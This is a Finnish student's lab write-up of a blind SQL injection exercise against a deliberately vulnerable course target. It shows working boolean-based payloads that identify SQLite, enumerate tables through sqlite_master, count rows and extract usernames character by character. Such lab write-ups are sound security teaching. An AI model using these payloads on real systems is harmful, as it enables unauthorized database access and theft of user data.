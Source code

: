 # Sokkona tehty SQL-injektio

**Tekijä:** Lauri Pimiä (lailpimi)
**Perustelut:** Kaikki tehtävät tehty, joten odotan 1.0p.

## T1

Kokeilin ensin user-id kenttää syöttämällä yhden ' merkin. Koska tämä antoi 
virheen, on kyseinen kenttä haavoittuvainen. Nyt pystyn myös kokeilemaan 
True/false logiikkaa syötteellä "' or 1=1", Tämä palauttaa Welcome eli True 
ja syöte "' or 1=2 --" taas Nope eli False. "--" ovat kommenttisymboleita, 
jotka käytännössä pysäyttävät sql kyselyn syötteeni jälkeen.

Tiivistettynä siis:
' or 1=1 --  = Welcome!
' or 1=2 --  = Nope!
'			 = Error!

## T2

Tietokanta on SQLite3. Ratkaisin tämän kokeilemalla mikä versiokysely antaa 
virheen ja mikä ei.

Syöte:
' or sqlite_version() --	= Welcome!

Komento oli siis toimiva, eli tietokanta on sqlite3. Kokeilin myös 
"' or @@version" (Mysql) ja "' or version()"(PostgreSQL), jotka molemmat 
antoivat virheen.

## T3

Löytyi taulut 'users_18' ja 'messages'

Etsin ensin hieman sqlite syntaksia ja löysin tämän kätevän cheatsheetin:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version

Tiedämme jo, että tietokannassa on kaksi taulua, mutta halusin vielä 
varmentaa tämän, jonka tein komennolla:
`
' or (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') = 2 --
`
Tämä siis saa sqlite_master taulusta listan tauluja, joiden määrän 
laskemme count() funktiolla. Taulujen nimien testaamiseen käytin yhä 
True/false arvailua ja tein sitä varten yksinkertaisen Python skriptin, joka 
löytyy täältä -> TODO

Skripti selvittää ensin taulun nimen pituuden komennolla:
`
' or (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0) = pituus_numerona --
` 
Jos saadaan True (Welcome), ollaan löydetty oikea pituus, muuten kasvatetaan 
pituutta kunnes oikea pituus löytyy. Tätä voisi nopeuttaa < tai > operaattoreilla, mutta en nähnyt sitä vaivan arvoisena tässä tapauksessa.
Parametri limit määrittää kuinka monta riviä vastaukseen kuuluu ja offset 
rivin jolta aloitetaan.

Kun taulun nimen pituus on saatu, aletaan nimen merkkejä arvailemaan yksi 
kerrallaan komennolla:
`
' or (SELECT substr(tbl_name,kohta_nimessa,1) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = 'merkki' --
`
Tämä siis hakee taulun nimestä kirjaimen halutusta kohdasta ja sitä vastaan 
kokeillaan eri kirjaimia kunnes saadaan True. Sitten siirrytään seuraavaan 
kirjaimeen, kunnes kokonainen nimi on valmis.

## T4

Nyt kun taulun nimi on tiedossa oli rivien määrä helppo kokeilla komennolla:

`
' or (SELECT COUNT(*) FROM users_18) = 5 -- 
`

Tein tämän käsin käyttämällä < ja > operaattoreita. Esimerkiksi alla oleva 
antaa True, koska rivejä on enemmän kuin 4. 
`
' or (SELECT COUNT(*) FROM users_18) > 4 -- 
`

## T5

Käyttäjätunnukset: 11111, abramov, accounting, admin ja postmaster

Jotta pystyisin saamaan taulusta käyttäjätunnuksia, tuli minun ensimmäiseksi 
selvittää missä sarakkeessa ne olivat. Käytin taas samaa periaatetta kuin 
aikaisemmin, joten komento pituudelle oli:
`
' or (SELECT length(sql) FROM sqlite_master WHERE type!='meta' and sql NOT NULL and name not like 'sqlite_%' and name='users_18' limit 1 offset 0)= pituus_numerona --
`
ja nimille
`
' or (SELECT substr(sql,kohta_nimessa,1) FROM sqlite_master WHERE type!='meta' and sql NOT NULL and name NOT like 'sqlite_%' and name='users_18' limit 1 offset 0) = 'merkki' --
`
Skripti -> TODO

Tämä ei itse asiassa toiminut aivan kuten ajattelin, sillä ulos tulostui: 
CREATE TABLE users_18 (uid TEXT, pass Text, PRIMARY KEY (uid))

Sain tästä silti sarakkeet, eli uid ja pass. Nyt tein taas samankaltaisen 
skriptin, jossa ensin katsottiin uid:n pituus:
`
' or (SELECT length(uid) FROM users_18 limit 1 offset 0)= pituus_numerona --
`
ja sitten itse uid
`
' or (SELECT substr(uid,kohta_nimessa,1) FROM users_18 limit 1 offset 0) = 'merkki' --
`

T4 perusteella saamme 5 käyttäjää, yksi per offset. Löytyneet käyttäjät siis:
11111, abramov, accounting, admin ja postmaster

Skripti -> 

